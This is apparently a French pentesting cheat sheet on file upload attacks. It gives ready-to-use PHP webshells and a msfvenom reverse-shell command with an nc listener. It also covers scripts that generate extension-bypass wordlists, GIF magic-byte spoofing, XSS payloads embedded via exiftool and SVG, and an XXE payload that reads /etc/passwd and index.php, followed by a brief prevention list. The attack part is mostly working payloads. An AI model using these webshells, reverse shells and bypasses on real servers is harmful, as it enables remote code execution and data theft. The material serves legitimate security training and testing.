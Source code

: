 # File Upload Attack

----

- ###### Étape 1 : Identifier le framework ou l'environnement

- ###### Étape 2 : Uploader le fichier correspondant avec le bon spcript 

- ###### Étape 3 : se rendre sur le lien ou écouter le port de l'application

-----
## Comment Uploader :

##### Quelques scripts ( PHP )

* ###### Avoir le Hostname 
  ```php
    <?php system('hostname'); ?>
  ```
* ######  Creer un webshell custom en php
  ```php
    <?php system($_REQUEST['cmd']); ?>
  ```
  * **Pour communiquer avec le webshell, on utilise :**
    ```
     <www.linkToFile.php>?cmd=<maCommande>
    ```
* ###### Autres webshell en php
  - [phpbash ( bash avec UI )](https://github.com/Arrexel/phpbash)
  - web shells in Seclist ( Seclists/Webshells) 

* ###### Revese Shell
  **Avec msfvenom**
    ```php
    msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
    ```
  **Autres reverse shell php**


  - **Communiquer avec le reverse shell**
    ```bash
     # upload file, then
     nc -lvnp OUR_PORT
     # go to the link of the file in parallel
    ```

  - Payload All The things > Upload Insecure Files 
  - Seclists
-----

### Cas particulier :
  #### Dans le cas d'une image sécurisé :
  ###### Méthode 1 : 
  - **Changer le Content-Type + supprimer toute fonction front de validation**
  ###### Méthode 2 : cas de blacklist  
  * [ ] _sur windows, les extensions de fichier sont insensible à la casse donc on peut bypasser la blacklist avec **pHp** au lieu de **.php**_ 
  
  * [ ] on peut essayer le **fuzzing** de l'extension du fichier lors de l'upload ( burp intruder )  avec le dictionnaire  >> extensions utilisables ou non
    * **Web-extensions de Seclists**
    * **Payload all the things >> upload insecure file**
    * _Steps_ :
      - Aller dans burp suite intruder 
      - Desactiver l'encodage url dans payload
      - charger le dictionnaire ou selectionner un disponible 
      - start Attack
      - regarder les résultats -> fichiers blacklisté / non blacklisté

  ###### Méthode 3 : cas de whitelist
  * [ ] _la whitelist n'autaurise qu'un certain type de fichier, ainsi, on utilise la méthode de la blacklist pour connaître les extensions autorisés_
  - **Pour bypasser la whitelist, on peut utiliser la méthode de la double extension ex : shell.php -> shell.php.png ou shell.php%00.png**
      - payload all the thing upload tricks
      - PayloadsAllTheThings/Upload Insecure Files/Extension PHP
/extensions.lst
      - character injection ( chaque caractère à un contexte précis)

      - **script**
        ```shell
          # script pour generer une wordlist avec des extensions pour bypass whitelist
          for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
          done
        ```
      - **fuzzing character injection** ( for the get and the post in order to see the the correct file name)

  ###### Méthode 4 : file content validation
  * [ ] _utiliser fuzzing content type avec Seclist worlist content type_
  ###### Méthode 5 : MIME-Type. Multipurpose Internet Mail Extensions (MIME) Validation
  * [ ] _validation à travers le format par byte de la data ( file signature, magic bytes ..)_
      * **Pour le bypass, on peut simuler la signature d'un fichier gif avec GIF8**
      ```bash
        # filename="moncode.php" ...
        GIF8
        <monCode>
      ```
      * **puis utiliser le fuzzing et les autres méthodes combiné pour upload et ensuite get ( burp intruder )**
  ###### Méthode 6 : validation plus sécurisé
  * [ ] _Dans le cas des upload ( HTML, JS, SVG, GIF ): on peut faire une XSS_
    ```bash
      # pour l'image

      exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
      
      # pour l'xml
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
      <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
          <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
          <script type="text/javascript">alert("window.origin");</script>
      </svg>
    ```
  
  * [ ] _Pour un : XML, SVG, PDF, PPT, DOC , une injection XXE est possible_
    ```bash
      # injection xxe
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
      <svg>&xxe;</svg>
      # [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ] 
      # pour telecharger index.php
    ```

    * [ ] _Creation d'un programme de DoS (Zip, PNG, JPG) avec XXE, ( zip bomb, pixel flood) ou encore un SSRF ou file transversal attack_

-----
### Autres attaques de file upload :

*  Infection dans le nom du fichier 
*  Upload Directory Disclosure
*  Windows-specific Attacks
*  Advanced file upload Attacks ( bug bounty eports and CVE)

-----
### PREVENTION

* générer des noms de fichier aléatoire
* mettre les fichiers uploadé sur un autre serveur
* creer une blacklist et une whitelist
* content-type validation
* cacher le repertoire / lien pour upload
* limiter la taille des fichiers
* faire des mises à jour
* scan anti malware
* firewall pour web app ( WAF)

-----
## Ressources

###### [Port Swigger Academy](https://portswigger.net/web-security/file-upload)

###### [YesWeHack Blog](https://blog.yeswehack.com/yeswerhackers/file-upload-attacks-part-2/)
  
###### [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

###### [_synactiv_](https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)

###### [_file signature ( magic bytes )_](https://en.wikipedia.org/wiki/List_of_file_signatures)

###### _intruder payloads_

###### Payload all the things